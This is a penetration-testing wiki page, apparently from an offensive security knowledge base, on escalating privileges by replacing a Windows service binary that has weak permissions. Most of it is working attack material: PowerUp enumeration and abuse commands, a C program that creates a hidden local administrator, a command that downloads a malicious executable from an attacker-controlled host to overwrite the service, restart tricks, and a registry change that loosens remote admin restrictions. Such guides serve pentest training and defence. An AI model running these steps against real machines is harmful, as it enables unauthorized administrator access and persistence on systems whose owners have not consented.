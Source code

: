 ```yaml
---
authors: Anh4ckin3
category: infra
---
```


# 🛠️ Weak service permissions

## Theory

File permissions in Windows define who is allowed to access, modify, or execute files on the system. If these permissions are misconfigured, they can enable unauthorized users to alter or replace critical files, potentially leading to security vulnerabilities such as unauthorized access.

Below is a summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

#### Enumerate of vulnerable services
This type of abuse can occur when the binary of a Windows service is misconfigured. If the permissions for this binary allow a local user without special privileges to modify or replace it with a malicious version, the attacker may gain the privileges of the service account, which is often a high-privilege account.

Enumeration can be performed using PowerShell, either by leveraging native PowerShell commands (Living off the Land) or by utilizing additional tools and scripts like [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two lies in the results: PowerUp can identify whether a service is vulnerable, while PowerShell merely lists the binary services. In this example, the aniService service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```
Once the vulnerable binary has been identified using a tool like PowerUp or Winpeas, the permissions of the binary can be checked with **icacls.exe**. The most relevant permissions to look for are (F) and (M), particularly when they are associated with a group such as `Everyone`: or a local user, for example.
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

####  Crafting a malicious binary
In the current practical case, the executable permission (F) is set for the "Everyone" group. However, if the permission had been set to (M), abuse would also have been possible. Due to this misconfiguration, the attacker can easily replace the binary with a malicious version. PowerUp can be used to automate this task.

```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is executed, it will only be necessary to restart the service to ensure that the abuse has been successfully carried out.

The second method involves creating a custom malicious binary, which can offer advantages, such as bypassing antivirus detection. Below is a simple C code that will execute a Windows system command (the system command can, of course, be replaced with another).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc CODE.C$ -lws2_32 -o FILE.EXE$
```

#### Replacing binaries
Due to the incorrect permissions, the attacker can replace the original executable by renaming it, for example. The attacker can then add the new malicious file with the same name as the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```

#### Methods for service restart
Once the binary is replaced, the service needs to be restarted. To verify if this is possible, a tool from the Sysinternals suite can be helpful, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) It is a tool that allows system administrators to quickly check the type of access users or specific groups have to resources, including files, directories, registry keys, global objects, and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage service startup are SERVICE_START and SERVICE_STOP. If these permissions are assigned to your user account or to a group that controls your access, you will be able to restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
An alternative exists if the Startup permissions are not present. Using the sc.exe tool, the boot method used by the service can be checked. If it is set to AUTO_START, this means the service starts automatically during Windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows for rebooting a Windows system. With this privilege, it is possible to indirectly restart a service, even without having the direct permissions to do so.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted, the payload should execute.

#### Configuring the LocalAccountTokenFilterPolicy

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local Administrators group (except for those with a RID of 500, such as the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction, the value of the key must be modified.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)


